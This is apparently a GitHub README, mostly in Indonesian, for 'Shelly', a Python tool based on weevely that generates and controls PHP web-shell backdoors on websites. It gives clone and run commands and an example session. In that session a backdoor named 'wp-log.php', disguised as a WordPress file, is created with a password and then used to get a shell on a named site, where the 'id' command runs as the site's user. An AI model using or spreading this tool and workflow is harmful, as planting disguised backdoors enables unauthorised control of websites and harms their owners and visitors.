 
## Shelly | Simple Backdoor Manager with Python (based on weevely)

![Screenshoot](capture/capture-2.png)
<br>
Shelly adalah sebuah tool sederhana yang ditulis menggunakan Python, yang berfungsi untuk meremote sebuah website
<br>
### Instalation :

$ git clone https://github.com/tegal1337/Shelly <br>
$ cd Shelly <br>
$ python3 shell.py <br>

### Requirements :

<pre>
sudo pip install -r requirements.txt
</pre>

### Example :
<pre>

python3 shell.py -g wp-log -p tegal1337
   ______      ____
  / __/ / ___ / / __ __
 _\ \/ _ / -_/ / / // /
/___/_//_\__/_/_/\_, /
                /___/  v.1
--------------------------
Python shell - Tegal1337 |
Generate :
[+] ./backdoor.py -g "nama_shell" -p "password"
Connect Server :
[+] ./backdoor.py -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama wp-log.php dan password tegal1337

dalpan@Tegal1337:~/Tools$ python3 shell.py -u "https://www.pamz3d.com/wp-log.php" -p tegal1337
/opt/lampp/htdocs/php-futsal$ id
uid=501(pamz3d) gid=501(pamz3d) groups=501(pamz3d)
</pre>
![Screenshoot](capture/capture.png)
![Screenshoot](capture/capture-3.png)

### Artikel :
<ul>
   <li>https://www.tegal-1337.com/2020/01/meremote-sebuah-website-menggunakan.html</li>
</ul>

### Contact :
<ul>
  <li> Email : contact@dalpan.co</li>
  <li> FB : fb.com/dalpan.me
</ul>
